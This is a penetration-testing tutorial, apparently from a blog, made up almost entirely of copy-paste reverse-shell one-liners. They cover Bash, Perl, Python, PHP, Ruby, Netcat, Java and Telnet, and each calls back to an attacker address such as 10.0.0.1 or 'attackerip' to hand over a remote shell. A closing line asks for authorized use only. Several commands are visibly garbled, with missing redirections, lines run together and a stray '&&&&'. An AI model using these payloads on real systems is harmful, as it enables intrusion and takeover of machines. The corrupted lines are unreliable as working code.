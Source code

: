 ## Introduction

In the realm of penetration testing, a reverse shell can be a crucial tool. If you’re fortunate enough to discover a command execution vulnerability during a penetration test, you’ll likely want an interactive shell soon after. If adding a new account, SSH key, or .rhosts file and logging in isn’t possible, your next step is probably to throw back a reverse shell or bind a shell to a TCP port. This guide focuses on the former.

* * *

## Reverse Shell Techniques

The options for creating a reverse shell are limited by the scripting languages installed on the target system. However, you could also upload a binary program if you’re well-prepared. The examples shown are tailored to Unix-like systems. Some of the examples should also work on Windows if you substitute “/bin/sh -i” with “cmd.exe”. Each method aims to be a one-liner that you can copy/paste. They’re quite short lines, but not very readable.

#### Creating a Reverse Shell with Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 18.04)

```html
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Or

```html
exec /bin/bash 0&0 2>&0
```

Or

```html
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```

Or

```html
exec 5<>/dev/tcp/attackerip/4444cat <&5 | while read line; do $line 2>&5 >&5; done
```

Or

```html
while read line 0<&5; do $line 2>&5 >&5; done
```

#### Creating a Reverse Shell with Perl

Here’s a short, feature-free version that depends on /bin/sh:

```html
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Perl reverse shell that does not depend on /bin/sh:

```html
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

If the target system is running Windows use the following one-liner:

```html
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

#### Creating a Reverse Shell with Python

This was tested under Linux / Python 2.7

```html
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Creating a Reverse Shell with PHP

This code assumes that the TCP connection uses file descriptor 3. This worked on the most tested system. If it doesn't work, try 4, 5, 6…

```html
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Creating a Reverse Shell with Ruby

Short version that depends on /bin/sh:

```html
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Longer Ruby reverse shell that does not depend on /bin/sh:

```html
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

If the target system is running Windows use the following one-liner:

```html
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

#### Creating a Reverse Shell with Netcat

Netcat is rarely present on production systems and even if it is there are several versions of Netcat, some of which don’t support the -e option.

```html
nc -e /bin/sh 10.0.0.1 1234
```

Others possible Netcat reverse shells, depending on the Netcat version and compilation flags:

```html
nc -c /bin/sh attackerip 4444
```

Or

```html
/bin/sh | nc attackerip 4444
```

Or

```html
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```

#### Creating a Reverse Shell with Java

Always present when you need it, the "Java" language can also be a very good solution to establish a reverse shell.

```html
r = Runtime.getRuntime()p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```

#### Creating a Reverse Shell with Telnet

Of course, you can also use Telnet as an alternative for Netcat:

```html
rm -f /tmp/p; mknod /tmp/p p &&&& telnet attackerip 4444 0/tmp/p
```

Or

```html
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
```

* * *

## Conclusion

In this tutorial, we explored various methods for creating reverse shells during penetration tests. We covered examples in different scripting languages, including Bash, Perl, Python, PHP, Ruby, Netcat, Java, and even Telnet. These one-liners allow you to establish an interactive shell on the target system, even when adding new accounts or SSH keys isn’t feasible.

Remember to use these techniques responsibly and only in authorized scenarios. Always obtain proper permissions before attempting any penetration testing activities. Happy hacking!